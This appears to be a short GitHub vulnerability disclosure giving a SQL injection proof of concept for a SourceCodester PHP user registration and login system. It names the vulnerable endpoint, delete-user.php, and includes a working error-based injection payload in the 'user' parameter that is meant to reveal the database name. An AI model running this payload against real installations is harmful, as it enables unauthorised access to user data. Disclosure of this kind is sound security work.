 # user-registration-and-login-system-SQLi-PoC
SQL injection vulnerability PoC for (User Registration and Login System by rems)

Author : Abdelhamid Aghamir

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html

Vulnerability File: /endpoint/delete-user.php

[+] PoC:
Send a get request to the endpoint with the given payload to retrieve the database name ! 
/endpoint/delete-user.php?user=1' AND EXTRACTVALUE(4432,CONCAT(0x5c,0x716b767671,(SELECT (CASE WHEN (ISNULL(JSON_STORAGE_FREE(NULL))) THEN 1 ELSE 0 END)),0x7171787171))-- XXX
